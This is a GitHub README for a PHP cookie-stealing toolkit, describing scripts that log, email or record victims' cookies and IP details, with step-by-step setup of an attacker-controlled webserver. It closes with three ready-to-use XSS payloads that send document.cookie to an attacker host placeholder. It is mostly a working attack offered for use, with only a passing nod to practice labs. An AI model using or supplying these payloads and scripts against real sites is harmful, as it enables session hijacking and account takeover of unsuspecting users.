 # hacksudo-cookies-stealer
<h2> 1 method </h2>
here we created PHP Cookie Stealing Scripts which use in XSS/stored/relfect

1. **Cookiesteal-simple.php** - Records whatever "c" parameter holds, in example case the **document.cookie string,** writes value to **log.txt.** 

2. **Cookiemail.php** - This version code will mail the cookies to hacker mail using the PHP() mail function with subject “Stolen cookies”.

3. Cookiesteal-v.php (**verbose**) - **Collects the IP address, port numbe**r, **host**(usually computer-name), user agent and cookie.

## How To Usage
**you can use PHP server**
<h3>php -S attackerIP:80</h3> ( user attacker ip , and port you can use 8080 also ,
but remeber your apache2 must  stop now )
do this command at same path where you took your cookies script done your ready now ...
now find XSS site , for practice purpose you can use Beebox .<br>which is available at www.root-me.org , get XSS and use XSS paylaod which is given below of this README

Mail cookies stealer are very interesting <br>
Use mail scripts on working SMTP Webserver else it will not work

enjoy :D 
www.hacksudo.com/contact

<br>vishal@hacksudo.com

<h2>2 method </h2>
1. On the remote attacker machine, start the webserver (Apache2 in example),
```
sudo service apache2 start
```
2. Git clone the repo locally and then push the chosen "Cookie stealer" PHP script from local host to the attacking machine

```
git clone https://github.com/hacksudo/hacksudo-cookies-stealer

cd hacksudo-cookies-stealer

sudo scp cookiestealer-simple.php username@AttackMachine:/var/www/html/

sudo scp log.txt username@AttackMachine:/var/www/html/
```
**AWS Version**:

```
scp -i AWS-Key.pem cookiesteal-simple.php ec2-user@ec2[YOUR IP].us-east-2.compute.amazonaws.com:~/.

sudo mv cookiestealer-simple.php /var/www/html/
```

Example: http://[Attacker Webserver]/cookiesteal-simple.php

##### Setting Permissions:

Figure out which user is owning httpd process using the following command:
```
ps aux | grep httpd
```
Output should be similar to this:
```
ec2-user  1569  0.0  0.1  12840  1064 pts/0    S+   17:55   0:00 grep httpd
```
So now you know the user who is trying to write files, which is in this case ec2-user You can now go ahead and set the permission for directory where your php script is trying to write something:
```
sudo chown ec2-user:ec2-user /var/www/html/

sudo chmod 755 /var/www/html/
```

_XSS Payload Examples_:
* <script javascript:text>document.location="http://[Attacker Webserver]cookiesteal-simple.php?c=" + document.cookie + "&t=Alert"; </script>

* <script>document.location='http://[Attacker Webserver]/cookiesteal-v.php?cookie=' + document.cookie</script>

* <img src=x onerror=this.src='http://[Attacker Webserver]/cookiesteal-v.php?cookie='+document.cookie>
